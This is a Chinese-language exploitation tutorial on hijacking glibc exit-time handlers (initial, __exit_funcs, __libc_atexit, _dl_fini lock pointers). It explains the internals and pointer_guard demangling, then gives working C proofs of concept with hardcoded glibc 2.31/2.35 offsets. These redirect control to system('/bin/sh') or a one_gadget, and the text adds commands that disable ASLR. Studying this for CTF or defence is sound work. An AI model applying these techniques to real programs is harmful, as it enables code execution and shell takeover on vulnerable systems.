


- [EOP攻击](#eop攻击)
  - [基础](#基础)
    - [exit函数](#exit函数)
    - [\_\_exit\_funcs 和 initial](#__exit_funcs-和-initial)
    - [\_\_run\_exit\_handlers函数](#__run_exit_handlers函数)
    - [tcbhead\_t结构体](#tcbhead_t结构体)
    - [\_dl\_fini函数](#_dl_fini函数)
  - [攻击方式](#攻击方式)
    - [攻击 `initial`](#攻击-initial)
    - [攻击 `__exit_funcs`](#攻击-__exit_funcs)
    - [攻击 `_IO_cleanup`](#攻击-_io_cleanup)
    - [攻击\_dl\_fini](#攻击_dl_fini)
  - [变量地址偏移](#变量地址偏移)
    - [\_\_exit\_funcs地址](#__exit_funcs地址)
    - [initial](#initial)
    - [\_dl\_fini](#_dl_fini)
    - [\_\_libc\_atexit](#__libc_atexit)
    - [\_dl\_rtld\_lock\_recursive \_dl\_rtld\_unlock\_recursive和\_rtld\_global.\_dl\_load\_lock.mutex](#_dl_rtld_lock_recursive-_dl_rtld_unlock_recursive和_rtld_global_dl_load_lockmutex)

# EOP攻击

## 基础

### exit函数

`exit` 直接调用 `__run_exit_handlers`，并且传入`__exit_funcs`地址

```C
void
exit (int status)
{
    __run_exit_handlers (status, &__exit_funcs, true, true);
}
```

### __exit_funcs 和 initial

`__exit_funcs`存放的是`initial`的地址，如下:

```C
static struct exit_function_list initial;
struct exit_function_list *__exit_funcs = &initial;
```

`initial`的结构如下:

```C
struct exit_function
{
    long int flavor; // 通常为4
    union
    {
        void (*at)(void);
        struct
        {
            void (*fn)(int status, void *arg);
            void *arg;
        } on;
        struct
        {
            void (*fn)(void *arg, int status);
            void *arg;
            void *dso_handle;
        } cxa;
    } func;
};
struct exit_function_list
{
    struct exit_function_list *next;
    size_t idx; // 修改为非0的值来攻击函数指针
    struct exit_function fns[32];
};
```

可以看出:

- `initial:0x0`的位置是链表指针，通常为`0`
- `initial:0x8`的位置设置为`非0`才能进入`while`来调用函数指针
- `initial:0x10`的位置通常为`4`
- `initial:0x18`的位置为函数指针，但是这个值需要通过`tcbhead_t->pointer_guard`来反算
- `initial:0x20`的位置为函数指针所使用的参数

### __run_exit_handlers函数

```C
void
    attribute_hidden
    __run_exit_handlers(int status, struct exit_function_list **listp,
                        bool run_list_atexit, bool run_dtors)
{
#ifndef SHARED
    if (&__call_tls_dtors != NULL)
#endif
        if (run_dtors)
            // tls_dtor_list通常为0，所以这个函数在这基本上什么都没做
            __call_tls_dtors();

    __libc_lock_lock(__exit_funcs_lock);

    while (true)
    {
        // 因为listp是__exit_funcs的地址，所以cur应当指向initial
        struct exit_function_list *cur = *listp;

        if (cur == NULL)
        {
            __exit_funcs_done = true;
            break;
        }

        // 伪造initial时需要让initial:0x8=1才能进入这个循环
        while (cur->idx > 0)
        {
            // f指向initial.fns，也就是struct exit_function
            struct exit_function *const f = &cur->fns[--cur->idx];
            const uint64_t new_exitfn_called = __new_exitfn_called;

            switch (f->flavor) // f->flavor的值通常为4
            {
                void (*atfct)(void);
                void (*onfct)(int status, void *arg);
                void (*cxafct)(void *arg, int status);
                void *arg;

            case ef_free: // 0
            case ef_us:      // 1
                break;
            case ef_on: // 2
                onfct = f->func.on.fn;
                arg = f->func.on.arg;
#ifdef PTR_DEMANGLE
                PTR_DEMANGLE(onfct);
#endif
                __libc_lock_unlock(__exit_funcs_lock);
                onfct(status, arg);
                __libc_lock_lock(__exit_funcs_lock);
                break;
            case ef_at: // 3
                atfct = f->func.at;
#ifdef PTR_DEMANGLE
                PTR_DEMANGLE(atfct);
#endif
                __libc_lock_unlock(__exit_funcs_lock);
                atfct();
                __libc_lock_lock(__exit_funcs_lock);
                break;
            case ef_cxa: // 4, 程序通常会进入这个case
                f->flavor = ef_free;     // 0
                cxafct = f->func.cxa.fn; // 设置指针函数
                arg = f->func.cxa.arg;     // 设置指针函数参数
#ifdef PTR_DEMANGLE
                PTR_DEMANGLE(cxafct); // 解密指针函数的地址，如下:
                // cxafct = (cxafct >> 0x11) ^ tcbhead_t->pointer_guard (注：>>表示循环右移)
#endif
                __libc_lock_unlock(__exit_funcs_lock);
                cxafct(arg, status); // exit(status);
                __libc_lock_lock(__exit_funcs_lock);
                break;
            }

            if (__glibc_unlikely(new_exitfn_called != __new_exitfn_called))
                continue;
        }

        *listp = cur->next;
        if (*listp != NULL)
            free(cur);
    }

    __libc_lock_unlock(__exit_funcs_lock);

    // 劫持函数指针来攻击，也就是攻击 `_IO_cleanup`
    if (run_list_atexit)
        RUN_HOOK(__libc_atexit, ());

    _exit(status);
}
```

解密指针函数的地址时，在源码中循环右移的值为`9`，但是`libc`反汇编中是`0x11`:

```C
#define PTR_DEMANGLE(var) asm("rorl $9, %0\n"           \
                              "xorl %%gs:%c2, %0"       \
                              : "=r"(var)               \
                              : "0"(var),               \
                                "i"(offsetof(tcbhead_t, \
                                             pointer_guard)))
```

### tcbhead_t结构体

如果修改`initial`的函数指针时，需要反算`tcbhead_t->pointer_guard`

```C
typedef struct
{
    void *tcb;
    dtv_t *dtv;
    void *self;
    int multiple_threads;
    uintptr_t sysinfo;
    uintptr_t stack_guard;   // 栈保护值，用于检测栈溢出。
    uintptr_t pointer_guard; // 指针保护值，用于防止指针篡改。
    int gscope_flag;
    unsigned int feature_1;
    void *__private_tm[3];
    void *__private_ss;
    unsigned long ssp_base;
} tcbhead_t;
```

### _dl_fini函数

`_dl_fini`函数中有如下调用过程:

```C
__rtld_lock_lock_recursive (GL(dl_load_lock));
__rtld_lock_unlock_recursive (GL(dl_load_lock));
```

其中:

```C
#  define GL(name) _rtld_global._##name

#define __rtld_lock_lock_recursive(NAME) \
  GL(dl_rtld_lock_recursive)             \
  (&(NAME).mutex)

#define __rtld_lock_unlock_recursive(NAME) \
  GL(dl_rtld_unlock_recursive)             \
  (&(NAME).mutex)
```

所以函数调用过程分别为:

```C
_rtld_global._dl_rtld_lock_recursive (&_rtld_global._dl_load_lock.mutex);
_rtld_global._dl_rtld_unlock_recursive (&_rtld_global._dl_load_lock.mutex);
```

## 攻击方式

### 攻击 `initial`

1. 泄露 `libc` 地址(如果开启`ASLR`还需要知道 `ld` 地址)
2. 泄露 `initial` 内容(函数指针`f->func.cxa.fn`)
3. 计算 `tcbhead_t.pointer_guard` 的值(`pointer_guard = _dl_fini ^ (f->func.cxa.fn(initial:0x18) >> 0x11)`, `>>`为循环右移)
4. 修改 `initial` 的内容, 设置函数指针的值(`f->func.cxa.fn = (目标地址 ^ tcbhead_t->pointer_guard) << 0x11`, `<<`为循环左移), 设置函数参数
5. `exit`即可触发漏洞

__示例:__

```C
/**
 * 关闭ASLR  : sudo sysctl -w kernel.randomize_va_space=0
 * glibc版本 : glibc-2.35
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// 循环右移
#define ROR64(x, n) (((x) >> (n)) | ((x) << (64 - (n))))
// 循环左移
#define ROL64(x, n) (((x) << (n)) | ((x) >> (64 - (n))))

char binsh[] = "/bin/sh";

int main()
{
    // 泄露地址:glibc2.35.so
    size_t libc_base = (size_t)&system - 0x50d70;
    size_t *initial = (size_t *)(libc_base + 0x21bf00);
    size_t *_dl_fini = (size_t *)(libc_base + 0x3c9040);

    // 计算出tcbhead_t.pointer_guard的值
    size_t pointer_guard = ((size_t)_dl_fini) ^ ROR64((size_t) * (initial + 3), 0x11);

    // 修改函数指针和对应参数
    *(initial + 3) = ROL64(((size_t)&system) ^ pointer_guard, 0x11);
    *(initial + 4) = (size_t)binsh;

    // 触发漏洞
    exit(-1);

    return 0;
}
```

__注:__

函数指针`f->func.cxa.fn`, 偏移为`&initial+0x18`; 函数参数`f->func.cxa.arg`, 偏移为`&initial+0x20`; 第二个参数由exit传入

如果开启了`ASLR`会导致`libc`和`ld`的偏移不固定，无法通过`libc`基地址计算`_dl_fini`函数地址

### 攻击 `__exit_funcs`

1. 泄露 `libc` 地址(如果开启`ASLR`还需要知道 `ld` 地址)
2. 泄露`__exit_funcs`和`initial`(`initial:0x18`)的值
3. 计算 `tcbhead_t.pointer_guard` 的值(`pointer_guard = _dl_fini ^ (f->func.cxa.fn(initial:0x18) >> 0x11)`, `>>`为循环右移)
4. 伪造一个`fake_initial`，并设置数据，设置函数指针和参数的方式和[攻击 `initial`](#攻击-initial)相同, 详情见示例
5. 修改`__exit_funcs`指向`fake_initial`
6. `exit`即可触发漏洞

__示例:__

```C
/**
 * 关闭ASLR  : sudo sysctl -w kernel.randomize_va_space=0
 * glibc版本 : glibc-2.35
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// 循环右移
#define ROR64(x, n) (((x) >> (n)) | ((x) << (64 - (n))))
// 循环左移
#define ROL64(x, n) (((x) << (n)) | ((x) >> (64 - (n))))

char binsh[] = "/bin/sh";

int main()
{
    // 泄露地址:glibc2.35.so
    size_t libc_base = (size_t)&system - 0x50d70;
    size_t *__exit_funcs = (size_t *)(libc_base + 0x21a838);
    size_t *_dl_fini = (size_t *)(libc_base + 0x3c9040);

    size_t cxafct = *(size_t *)(*__exit_funcs + 0x18);

    // 计算出tcbhead_t.pointer_guard的值
    size_t pointer_guard = ((size_t)_dl_fini) ^ ROR64(cxafct, 0x11);

    // 伪造fake_initial
    size_t *fake_initial = malloc(0x20);
    *(fake_initial + 0) = 0;   // 任意
    *(fake_initial + 1) = 100; // 不为0
    *(fake_initial + 2) = 4;   // 通常为4
    *(fake_initial + 3) = ROL64(((size_t)&system) ^ pointer_guard, 0x11);
    *(fake_initial + 4) = (size_t)binsh;

    // 将__exit_funcs指向fake_initial
    *__exit_funcs = (size_t)fake_initial;

    // 触发漏洞
    exit(-1);

    return 0;
}
```

__注:__

函数指针`f->func.cxa.fn`, 偏移为`&initial+0x18`; 函数参数`f->func.cxa.arg`, 偏移为`&initial+0x20`; 第二个参数由exit传入

如果开启了`ASLR`会导致`libc`和`ld`的偏移不固定，无法通过`libc`基地址计算`_dl_fini`函数地址

### 攻击 `_IO_cleanup`

1. 修改`__libc_atexit`函数指针指向`one_gadget`
2. `exit`即可触发漏洞

__示例:__

```C
/**
 * glibc版本 : glibc-2.31(未修改)
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(void)
{
    // 泄露地址
    char *libc_base = ((char *)(&system) - 0x55410);
    size_t* __libc_atexit = (size_t*)(libc_base + 0x1ED608);

    // 设置HOOK指针的地址为one_gadget的地址
    *__libc_atexit = (size_t)(libc_base + 0xe6aee);

    // 触发漏洞
    exit(1);

    return 0;
}
```

__注:__

2.35及其后面的版本不可写，之前的版本更新后也不可写，需要通过`gdb`动调查看`__libc_atexit`是否可写

### 攻击_dl_fini

四种方法:
修改`_rtld_global._dl_rtld_lock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_unlock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
修改`_rtld_global._dl_rtld_unlock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`

调用exit即可触发漏洞

__示例:__

```C
/**
 * 修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
 * 关闭ASLR  : sudo sysctl -w kernel.randomize_va_space=0
 * glibc版本 : glibc-2.31(未修改)
 */
#include <stdio.h>
#include <stdlib.h>

char *binsh = "/bin/sh";

int main(void)
{
    /* 泄露地址 */

    // p/x &system
    char *libc_base = ((char *)(&system) - 0x55410);

    // p/x &_rtld_global._dl_rtld_lock_recursive
    // p/x &_rtld_global._dl_rtld_unlock_recursive
    size_t *_dl_rtld_lock_recursive = (size_t *)(libc_base + 0x228f68);

    // p/x &_rtld_global._dl_load_lock.mutex
    size_t *dl_load_lock = (size_t *)(libc_base + 0x228968);

    /* 修改数据 */

    // 设置 _dl_rtld_lock_recursive 为 system
    *_dl_rtld_lock_recursive = (size_t)&system;

    // 设置 _dl_load_lock 为 /bin/sh (注意，这里不是赋值地址，而是直接给字符串的字节码)
    *dl_load_lock = *(size_t*)binsh;

    exit(1);
    return 0;
}
```

__注:__

`glibc-2.34` 之前可用

需要关闭`ASLR`保护

## 变量地址偏移

### __exit_funcs地址

通过 `pwndbg` 查看 `__exit_funcs` 地址 : `p/x &__exit_funcs`
通过 `IDAPro` 查看 `__exit_funcs` 地址 : `exit` 中调用 `__run_exit_handlers` 时第二个参数即为 `__exit_funcs` 的地址

### initial

通过 `pwndbg` 查看 `initial` 地址 : `p/x &initial`
通过 `IDAPro` 查看 `initial` 地址 : 跟进[\_\_exit\_funcs地址](#__exit_funcs地址)，值即为initial的地址

### _dl_fini

通过 `pwndbg` 查看 `_dl_fini` 地址 : `p/x &_dl_fini`
通过 `IDAPro` 查看 `_dl_fini` 地址 : 在`ld`中的`start`函数反汇编，最下面有`lea rdx, sub_6040`, 其中`sub_6040`函数即为`_dl_fini`



### __libc_atexit

通过 `IDAPro` 查看 `__libc_atexit` 地址 : 进入`exit`后查看`__run_exit_handlers`的函数名，对`_exit`交叉引用后找到由`__run_exit_handlers`调用的位置
如下，`off_2169F8`就是`__libc_atexit`的偏移



### _dl_rtld_lock_recursive _dl_rtld_unlock_recursive和_rtld_global._dl_load_lock.mutex

通过 `pwndbg` 查看 `_dl_rtld_lock_recursive` 地址 : `p/x &_rtld_global._dl_rtld_lock_recursive`
通过 `pwndbg` 查看 `_dl_rtld_unlock_recursive` 地址 : `p/x &_rtld_global._dl_rtld_unlock_recursive`
通过 `pwndbg` 查看 `_dl_load_lock.mutex` 地址 : `p/x &_rtld_global._dl_load_lock.mutex`
